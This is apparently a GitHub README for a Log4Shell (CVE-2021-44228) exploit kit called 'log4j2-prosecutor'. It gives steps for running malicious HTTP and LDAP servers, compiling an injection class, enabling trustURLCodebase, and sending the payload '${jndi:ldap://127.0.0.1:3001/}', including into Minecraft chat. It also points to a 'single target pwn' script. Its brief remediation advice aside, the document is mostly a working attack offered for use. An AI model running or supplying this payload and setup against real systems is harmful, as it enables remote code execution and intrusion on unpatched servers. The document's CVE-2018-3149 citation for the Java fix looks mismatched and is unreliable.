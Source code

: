# log4j2-prosecutor

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had (JNDILookup)[CVE-2021-44228](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>
<p> Add: https://www.blumira.com/analysis-log4shell-local-trigger/ </p>
## Running
0. Install requirements
```
cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
cd http-server && node index.js &
cd ldap-server && node index.js
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
./java-single-compile <Main.java>
# Linux 
javac <Main.java>
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send payload to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)
```
${jndi:ldap://127.0.0.1:3001/}
```
5. cleanup
```
NODEP=`pgrep node`
for id in $NODEP; do
    kill $id
done
```

## Scripts
```
# Single target pwn
# Edit exploit-configs.txt with url and params
cd scripts/single-pwn && python3 __main__.py
```

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java

## License [GPL3]
See License in LICENSE
